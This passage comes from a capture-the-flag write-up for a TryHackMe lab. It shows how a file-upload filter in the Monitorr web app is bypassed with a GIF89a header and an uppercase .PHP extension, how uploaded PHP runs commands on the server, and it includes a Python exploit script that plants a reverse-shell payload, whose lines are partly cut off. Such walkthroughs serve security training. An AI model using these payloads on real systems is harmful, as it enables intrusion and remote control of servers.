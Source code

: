 That worked, so it was just looking for lower case php, not uppercase! Let's check we can see it:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/test2.gif.php
GIF89a
hello from pencer
```

One last check, can we upload some actual php code and execute it:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# echo -e $'\x47\x49\x46\x38\x39\x61\n<?php echo system("whoami");' > test3.gif.PHP

┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./test3.gif.PHP" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
<div id='uploadreturn'>File test3.gif.PHP is an image: <br><div id='uploadok'>File test3.gif.PHP has been uploaded to: ../data/usrimg/test3.gif.php</div></div>

┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/test3.gif.php
GIF89a
www-data
www-data  
```

That worked. We've bypassed the protections and uploaded php code that we can execute remotely. We could just upload a shell using Curl, but let's go back to the exploit and get that working with what we've learnt:

```text
import requests
import os
import sys

requests.packages.urllib3.disable_warnings()

if len (sys.argv) != 4:
        print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-Wi>

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"pencer_shell.png.PHP\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/>

    requests.post(url, headers=headers, data=data, verify=False, cookies={"isHuman": "1"})

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/pencer_shell.png.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", >
    requests.get(url, headers=headers, verify=False, cookies={"isHuman": "1"})
```
